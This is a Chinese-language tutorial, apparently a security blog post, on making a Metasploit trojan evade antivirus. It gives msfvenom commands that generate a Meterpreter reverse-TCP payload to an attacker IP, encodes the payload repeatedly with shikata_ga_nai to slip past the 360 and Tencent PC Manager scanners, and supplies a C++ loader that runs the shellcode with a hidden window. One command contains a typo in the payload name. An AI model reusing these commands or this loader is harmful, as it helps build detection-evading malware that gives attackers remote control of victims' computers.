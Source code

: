 ![](https://image.3001.net/images/20210420/1618922062_607eca4e8d0749681f3e3.png!small)

首先，在攻击机中使用 msfvenom 生成一个普通的木马 (只经过简单的编码) 来测试一下 360 和电脑管家的威力

```
msfvenom -p windows/meterpreter/revse_tcp -e x86/shikata_ga_nai -i 5 lhost=192.168.119.130 lport=1234 -f exe > haixian.exe
```

`-i 指定编码次数 -e 指定编码格式`

![](https://image.3001.net/images/20210420/1618921677_607ec8cd15c1342306261.png!small)

先把木马复制到本机，本机的 360 报毒

![](https://image.3001.net/images/20210420/1618921703_607ec8e71639a7e1e6e5d.png!small)

再粘贴到受害机中，分别使用 360，电脑管家扫描，全都报毒

![](https://image.3001.net/images/20210420/1618921714_607ec8f238249d691fcb8.png!small)

![](https://image.3001.net/images/20210420/1618921717_607ec8f56c2fce9ed4588.png!small)

接下来开始免杀操作：

输入命令

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 15 -b ‘\x00’ lhost=192.168.119.130 lport=1234 -f c
```

`-b 避免使用的字符 -f 指定输出格式`

![](https://image.3001.net/images/20210420/1618921744_607ec910cf9eccfe51980.png!small)

此时输出的便是 c 语言格式并经过 shikata_ga_nai 编码 15 次的 payload

接下来打开 Visual C++ 选择新建文件 ->Win32 Application-> 填入工程名（注意只能用英文输入法）-> 平台选择 Win32-> 确定

![](https://image.3001.net/images/20210420/1618921754_607ec91a584c6de54a85f.png!small)

选择 FileView->haixian files->source files->haixian.cpp

将其中内容替换为

```
#include "stdafx.h"
#include <stdio.h>
#pragma comment( linker, "/subsystem:"windows" /entry:"mainCRTStartup"")
unsigned char buf[] =
（这里放生成好的数组）
main()
{
((void(*)(void))&buf)();
}
```
